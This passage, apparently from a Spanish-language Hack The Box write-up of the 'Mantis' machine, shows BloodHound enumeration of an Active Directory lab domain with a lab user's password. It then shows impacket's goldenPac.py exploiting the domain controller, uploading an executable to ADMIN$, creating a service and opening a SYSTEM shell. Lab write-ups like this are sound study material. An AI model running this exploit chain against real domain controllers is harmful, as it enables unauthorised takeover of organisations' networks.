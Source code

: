 ```null
bloodhound-python -c All -ns 10.10.10.52 -d htb.local -u 'james' -p 'J@m3s_P@ssW0rd!'
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: mantis.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: mantis.htb.local
INFO: Found 5 users
INFO: Found 42 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: mantis.htb.local
INFO: Ignoring host mantis.htb.local since its reported name  does not match
INFO: Done in 00M 08S
```

<img src="/writeups/assets/img/Mantis-htb/8.png" alt="">

No encuentro nada que me sirva

Intento efectuar un ```Golden Ticket Attack```. Utilizo la herramienta ```goldenPac.py```, perteneciente a la suite de ```impacket```

```null
goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file xvCbwVPb.exe
[*] Opening SVCManager on mantis.....
[*] Creating service Jlxr on mantis.....
[*] Starting service Jlxr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
```